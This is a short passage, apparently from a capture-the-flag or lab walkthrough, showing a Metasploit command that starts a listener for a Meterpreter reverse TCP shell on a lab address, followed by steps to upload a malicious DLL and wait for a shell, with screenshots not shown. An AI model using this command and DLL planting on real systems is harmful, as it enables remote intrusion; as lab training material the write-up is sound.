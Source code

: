 ```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.84; set lport 4444; exploit"

```
- Upload the malicious dll:

![image45](../resources/48aa5989df8140d2b3ed90db6c9793ce.png)

- Wait for a shell:

![image46](../resources/3c5bbd27d01545d39470d763c86e5610.png)


![image47](../resources/16c68f3f57294976910502056d2007c6.png)
